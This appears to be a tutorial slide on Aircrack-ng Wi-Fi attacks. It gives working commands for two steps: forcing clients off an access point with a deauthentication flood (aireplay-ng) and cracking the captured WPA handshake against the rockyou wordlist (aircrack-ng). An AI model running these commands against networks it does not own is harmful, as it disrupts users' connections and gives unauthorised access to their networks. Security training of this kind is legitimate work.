

Aircrack-ng attacks

3. (Optional) Force a Handshake With Deauthentication
If no clients are joining, you can force a reconnect:
aireplay-ng --deauth 10 -a <AP_MAC> wlan0mon
This usually triggers a new handshake.

4. Crack the Handshake
Once you have a valid handshake, use Aircrack-ng with a wordlist:
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
Aircrack-ng will test passwords until it finds the key.